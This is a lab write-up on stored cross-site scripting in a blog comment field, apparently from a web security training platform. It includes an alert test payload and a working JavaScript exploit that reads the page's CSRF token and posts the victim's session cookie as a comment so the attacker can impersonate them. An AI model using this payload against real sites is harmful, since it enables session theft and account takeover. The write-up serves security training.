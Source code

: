 # Exploiting cross-site scripting to steal cookies
# Objective
This lab contains a stored XSS vulnerability in the blog comments function. A simulated victim user views all comments after they are posted. To solve the lab, exploit the vulnerability to exfiltrate the victim's session cookie, then use this cookie to impersonate the victim.

# Solution
This lab requires Professional edition of Burp Suite (Burp Collaborator). Even though, it can be solved without professional version but it is a little bit more complicated.

## Analysis
Payload: `<script> alert() </script>` - comment field is vulnerable to XSS attack.
|![](Images/image-83.png)|
|:--:| 
|![](Images/image-84.png)|
|![](Images/image-85.png)|

In order to steal user’s cookie, attacker should prepare arbitrary JavaScript code that would run in victim browser and that would send cookie value in HTTP Request to Burp Collaborator.\
Other way to steal user’s cookie is to force user to post his cookie in the comment on the website. To perform this attack `csrf` value will be needed while crafting a valid comment for this blog (and cookie value - main goal of this attack).

![](Images/image-86.png)

## XSS Exploit
```js
// The 'csrf' value might not exists while this code will be executed
// Therefore all this code should be delayed 
// This line of code ensures that 'csrf' token exists
window.addEventListener('DOMContentLoaded', function(){

var csrftoken = document.getElementsByName('csrf')[0].value;

var data = new FormData();
data.append('csrf', csrftoken);
data.append('postId', 8);
data.append('comment', document.cookie);
data.append('name', 'Victim');
data.append('email', 'victim@victim.com');
data.append('website', 'https://example.com');

fetch('/post/comment', {
method: 'POST',
mode: 'no-cors',
body: data

});
});
```
`PostId` value should be changed appropriately.
|![](Images/image-87.png)|
|:--:| 
| *Contents of document.cookie* |

After changing cookie value while sending a request, request is sent as if it was from another user.

![](Images/image-88.png)